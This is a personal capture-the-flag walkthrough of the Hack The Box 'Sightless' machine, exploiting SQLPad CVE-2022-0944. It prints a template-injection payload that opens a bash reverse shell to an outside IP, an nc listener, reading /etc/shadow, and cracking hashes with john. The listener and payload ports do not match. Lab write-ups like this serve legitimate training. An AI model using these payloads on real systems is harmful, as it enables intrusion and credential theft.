 
2024-11-02 11:18

Source:  #htb #privesc #Boot2root 
### Foothold

The target system has only three open ports: 21 (ftp), 22 (ssh), and 80 (http)
port 80 has a website and the website offers some services. Among the available services, there’s a redirection to `sqlpad.sightless.htb`. To access this service, ensure that you add the domain `sqlpad.sightless.htb` to your hosts file.
### Exploit

The installed version of SQLPad, identified as 6.10.0, can be found via BurpSuite or by clicking `info` on the top right hand of the screen. While analyzing the vulnerabilities in this version, it was discovered that it is affected by CVE-2022-0944. ([Link](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb))

Manual method for the exploit is as follows- 
- set up a listener by using `nc -lvnp 9000`
	1. **Click on “Connection”**
	2. **Create a New Connection**
	3. **Choose MySQL as the Database**
	4. **Enter the Payload or credentials into the Database**
	5. **Test the Connection** to ensure the configuration is correct and the connection is successful.

**Payload**  - 
```
{{ process.mainModule.require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/10.10.14.9/9001 0>&1”’) }}
```
if this doesn't work refer [this post](https://www.reddit.com/r/hackthebox/comments/1fiba4r/stuck_on_sightless_box/)

This CVE also has a prebuilt exploit that can be found in the References section 
### User Flag

Upon further examination, I discovered that the `.dockerenv` file is indeed present, confirming the application is running within a Docker container. Additionally, after inspecting the system’s users, I identified two accounts: one belonging to “michael” and another to “node.”

access the `/etc/shadow` file and we see hashes of michael user 
copy the hash completely in a file named `hash` and use john to crack it 
```sh
john hash -w=/usr/share/wordlists/rockyou.txt
```
### Priv esc







get linpeas in your system via wget 
[[File transfer]]


jabhi wget use kar raha hai file transfer ke liye toh apne kali mei hi karna server shuru, windows mei nhi

### References
https://app.hackthebox.com/machines/624

Exploit - https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944

https://thecybersecguru.com/ctf-walkthroughs/mastering-sightless-beginners-guide-from-hackthebox/
[Hack The Box Sightless Writeup. Introduction | by Noob | Dec, 2024 | Medium](https://medium.com/@muaaz.ahmed23105/hack-the-box-sightless-writeup-c0a8dc6c8245)